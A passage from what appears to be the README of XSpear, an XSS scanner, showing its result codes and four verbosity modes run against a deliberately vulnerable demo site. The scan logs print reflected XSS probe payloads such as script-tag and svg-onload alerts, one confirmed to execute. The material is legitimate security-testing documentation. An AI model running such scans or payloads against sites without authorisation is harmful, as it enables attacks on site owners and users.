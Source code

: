 - (V)UNL: Vulnerable XSS, Checked alert/prompt/confirm with Selenium
- (L)OW: Low level issue
- (M)EDIUM: medium level issue
- (H)IGH: high level issue

### Verbose Mode
**[0] quite mode(show only result)**
```
$ xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 0
you see report
```
**[1] show progress bar (default)**
```
$ xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 1
[*] analysis request..
[*] used test-reflected-params mode(default)
[*] creating a test query [for reflected 2 param + blind XSS ]
[*] test query generation is complete. [249 query]
[*] starting XSS Scanning. [10 threads]

[#######################################] [249/249] [100.00%] [01:05] [00:00] [  3.83/s]
...
you see report
```
**[2] show scanning logs**
```
$ xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 2
[*] analysis request..
[I] [22:42:41] [200/OK] [param: cat][Found SQL Error Pattern]
[-] [22:42:41] [200/OK] 'STATIC' not reflected
[-] [22:42:41] [200/OK] 'cat' not reflected <script>alert(45)</script>
[I] [22:42:41] [200/OK] reflected rEfe6[param: cat][reflected parameter]
[*] used test-reflected-params mode(default)
[*] creating a test query [for reflected 2 param + blind XSS ]
[*] test query generation is complete. [249 query]
[*] starting XSS Scanning. [10 threads]
[I] [22:42:43] [200/OK] reflected onhwul=64[param: cat][reflected EHon{any} pattern]
[-] [22:42:54] [200/OK] 'cat' not reflected <img/src onerror=alert(45)>
[-] [22:42:54] [200/OK] 'cat' not reflected <svg/onload=alert(45)>
[H] [22:42:54] [200/OK] reflected <script>alert(45)</script>[param: cat][reflected XSS Code]
[V] [22:42:59] [200/OK] found alert/prompt/confirm (45) in selenium!! '"><svg/onload=alert(45)>[param: cat][triggered <svg/onload=alert(45)>]
...
you see report
```
**[3] show scanning detail logs**
```
$ xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" -v 3
[*] analysis request..
[-] [22:56:21] [200/OK] http://testphp.vulnweb.com/listproducts.php?cat=123 in url
[ Request ]
{"accept-encoding"=>["gzip;q=1.0,deflate;q=0.6,identity;q=0.3"], "accept"=>["*/*"], "user-agent"=>["Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0"], "connection"=>["keep-alive"], "host"=>["testphp.vulnweb.com"]}
[ Response ]
{"server"=>["nginx/1.4.1"], "date"=>["Sun, 29 Dec 2019 13:53:23 GMT"], "content-type"=>["text/html"], "transfer-encoding"=>["chunked"], "connection"=>["keep-alive"], "x-powered-by"=>["PHP/5.3.10-1~lucid+2uwsgi2"]}
[-] [22:56:21] [200/OK] 'STATIC' not reflected
[-] [22:56:21] [200/OK] cat=123rEfe6 in url
...
[*] used test-reflected-params mode(default)
[*] creating a test query [for reflected 2 param + blind XSS ]
[*] test query generation is complete. [249 query]
[*] starting XSS Scanning. [10 threads]
```